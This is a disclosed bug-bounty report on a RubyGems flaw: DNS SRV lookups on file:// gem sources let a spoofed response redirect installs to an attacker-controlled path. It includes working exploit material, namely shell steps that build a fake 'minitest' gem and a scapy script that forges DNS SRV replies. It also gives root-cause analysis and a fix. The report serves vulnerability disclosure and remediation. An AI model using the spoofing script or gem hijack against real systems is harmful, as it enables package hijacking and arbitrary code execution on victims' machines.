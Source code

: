 # DNS SRV lookup of file:// sources enables local hijacking of gems

## Report Details
- **Report ID**: 411519
- **URL**: https://hackerone.com/reports/411519
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-19T18:10:29.578Z
- **Disclosed**: 2018-12-11T16:34:46.231Z

## Reporter
- **Username**: plover
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
# Summary

`gem` makes a DNS SRV query for each of its configured sources; the response is allowed to override the source URL in certain ways. The SRV query happens not only for http:// and https:// sources, but also for s3:// and file://. In the case of file://, the SRV response may add a prefix to the local filesystem path from which gems are fetched. As a consequence, an attacker who can provide or spoof DNS responses, and can write to the local filesystem, may cause a victim to download fake gems with arbitrary contents.

# Demonstration

Here is how an attacker may hijack a victim's installation of the `minitest` gem. The users `attacker` and `victim` share the same local filesystem. `victim` expects to install gems from /home/victim/trusted-gem-path, but `attacker` will force the installation to be from /tmp/attack/home/victim/trusted-gem-path instead.

First, `victim` sets up a file:// repo. This could also be done by some other party, like a local administrator.

```
victim$ mkdir -p /home/victim/trusted-gem-path/gems
victim$ (cd /home/victim/trusted-gem-path/gems && gem fetch --clear-sources --source https://rubygems.org/ minitest)
victim$ gem generate_index -d /home/victim/trusted-gem-path
```

Then `attacker` makes a malicious gem file and installs it under a prefix where `attacker` can write and `victim` can read. We'll use /tmp/attack.

```
# Make a malicious gem
attacker$ mkdir lib
attacker$ echo 'puts "hacked"' > lib/hacked.rb
attacker$ cat <<EOF > hacked.gemspec
Gem::Specification.new do |s|
  s.name = 'minitest'
  s.version = '5.11.3'
  s.files = ['lib/hacked.rb']
end
EOF
attacker$ gem build --force hacked.gemspec 
# Make it available under /tmp/attack
attacker$ mkdir -p /tmp/attack/home/victim/trusted-gem-path/gems
attacker$ cp minitest-5.11.3.gem /tmp/attack/home/victim/trusted-gem-path/gems
attacker$ gem generate_index -d /tmp/attack/home/victim/trusted-gem-path
```

Next, `attacker` runs a program to spoof SRV responses. This will require root privileges if run on the same host, but it could also be done from another host in the same local network. The attacker may even control the local DNS, for example by being the wi-fi admin.

```
#!/usr/bin/env python3

from scapy.all import *

TARGET = b"xxx./tmp/attack"

def respond(pkt):
    if not (DNS in pkt and pkt[DNS].opcode == 0 and pkt[DNS].ancount == 0):
        return
    q = pkt[DNSQR]
    # Nothing after "_rubygems._tcp." indicates that the host is empty;
    # i.e., that it's likely a lookup for a file:// URL. 33 == SRV.
    if not (q.qname == b"_rubygems._tcp." and q.qtype == 33):
        return
    resp = IP(src=pkt[IP].dst, dst=pkt[IP].src) \
        / UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport) \
        / DNS(qr=1, id=pkt[DNS].id, qd=q, ancount=1) \
        / DNSRRSRV(type=33, rrname=q.qname, ttl=30, priority=0, weight=1, port=80, rdlen=8+len(TARGET), target=TARGET)
    send(resp)

sniff(filter="udp dst port 53", prn=respond)
```

Finally, `victim` tries to fetch a gem and specifically asks for their previously configured file:// source. `attacker`'s SRV response adds a /tmp/attack prefix and `victim` ends up with a malicious gem.

```
victim$ gem fetch --clear-sources --source file:///home/victim/trusted-gem-path minitest
victim$ tar -O -xf minitest-5.11.3.gem -- data.tar.gz | tar tzf -
lib/hacked.rb
```

# Analysis

The [`api_endpoint`](https://github.com/rubygems/rubygems/blob/27041c454411ae2b9372e4619b1e265096284930/lib/rubygems/remote_fetcher.rb#L97-L119) function takes a URL, extracts the host component, and then issues a SRV query for `_rubygems._tcp.#{host}`. Its usual purpose is to replace "rubygems.org" with "api.rubygems.org" in http:// and https:// URLs; but it is also called for s3:// and file:// URLs. In a typical file:// URL, the host component is empty, so the query will be for `_rubygems._tcp.`.

`api_endpoint` has the property that [it allows limited control of parts of the URL other than the host component](https://github.com/rubygems/rubygems/pull/2035): in particular you can add a prefix to the path component by including `/` characters in the SRV response. The attack works by sending a SRV response of `xxx./tmp/attack`. The `xxx.` can be anything, as long as it ends with a `.` in order to pass the subdomain check. Receiving such a response, `api_endpoint` transforms the input URL
```
file:///home/victim/trusted-gem-path
```
into the output URL
```
file://xxx./tmp/attack/home/victim/trusted-gem-path
```
In the output URL, the `xxx.` is technically the host component, but it doesn't matter because it [is ignored](https://github.com/rubygems/rubygems/blob/27041c454411ae2b9372e4619b1e265096284930/lib/rubygems/remote_fetcher.rb#L237-L242).

The conditions for exploitation seem fairly narrow:
- The victim and attacker must share a filesystem.
- The attacker must know the path to the victim's file:// repo.
- The attacker must anticipate the name of a gem that the victim will install.
- The attacker must be able to provide DNS responses.

I don't know how common such conditions are. While `gem` supports file:// sources, I wasn't able to find much information on configuring them other than [one bug report](https://github.com/rubygems/rubygems/issues/761). It seems it's more common to do a [shared repository over http](https://guides.rubygems.org/run-your-own-gem-server/) than using a shared filesystem. Commit [37d486cfd9](https://github.com/rubygems/rubygems/commit/37d486cfd97fc0f4d17f2de0799269535f330721) says "bundler gemspecs use file:// URIs for their sources," but I could not find in Bundler where that happens.

# Remediation

The best solution seems to be not to call `api_endpoint` for file:// (and s3://) URLs. The host component of such URLs doesn't have the same meaning as it does in http:// and https:// URLs.

A mitigation that in this case would be sufficient would be to apply stricter validation of SRV responses, not allowing them to modify any components other than the host ([GitHub \#2035](https://github.com/rubygems/rubygems/pull/2035), [HackerOne \#274267](https://hackerone.com/reports/274267)).

## Impact

The CVSS calculator says the severity is "high" but I would put it at "low" because of the difficulty of execution. The impact is indeed bad: arbitrary code execution using the victim's privileges, whether through Ruby code or a C extension. But as far as I can tell, the conditions for exploitation are uncommon.

## Attachments
No attachments
